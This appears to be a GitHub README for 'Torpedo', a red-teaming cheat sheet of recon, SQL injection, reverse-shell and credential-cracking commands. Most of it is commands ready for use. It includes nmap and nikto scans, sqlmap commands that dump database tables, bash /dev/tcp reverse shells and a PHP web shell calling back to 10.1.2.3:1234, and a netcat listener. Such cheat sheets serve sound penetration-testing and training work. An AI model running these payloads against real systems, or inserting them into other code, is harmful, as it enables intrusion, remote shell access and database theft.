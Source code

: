 # Torpedo
Un torpedo para cosas de red teaming

# Recon and Initial Access

## Nmap
Scan all TCP ports quickly
```
nmap -Pn -n -v -sT -p- -T5 10.0.1.2
```

In-depth scan specific ports
```
nmap -Pn -n -v -sT -p 22,80 -A 10.0.1.2
```

## WebApp Scanners
Nikto vulnerability scanner
```
nikto -h 10.1.2.3 -C all
```

[whatweb](https://www.kali.org/tools/whatweb/) web technology identifier
```
whatweb -v -a 3 192.168.0.102
```

## WebApp Enumeration
Path enumeration with dirbuster:
```
dirb http://10.10.11.253
```

## SQL Injection - SQLMap
Check fields in HTTP GET
```
sqlmap -u "http://10.2.3.4/path/vulnerable.php?fieldname=value" -p fieldname --level 5 --risk 3 --dbs
```

Use intercepted request from Burp:
```
sqlmap -r request.txt ...
```

Dump databases:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 --dbs
```

Dump tables for given database:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 -D db_name --tables
```

Dump given table for given database:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 -D db_name -T table_name --dump
```

## Reverse Shells

### Netcat Receiver
```
nc -lvnp [receiving port]
```

### Bash TCP
```
/bin/bash -i >& /dev/tcp/10.1.2.3/1234 0>&1
/bin/bash -l > /dev/tcp/10.1.2.3/1234 0<&1 2>&1
```
[ref](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)

### Minimal php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.1.2.3/1234 0>&1'");
?>
```

# Post-Exploitation Recon (Linux)
User info, groups, etc
```
whoami
groups
```

Available sudo options
```
sudo -l
```

# Credential Access
## Password Hashes
Lookup hash type:
```
hashid -m "hash"
```

```
$ hashid -m '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
Analyzing '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
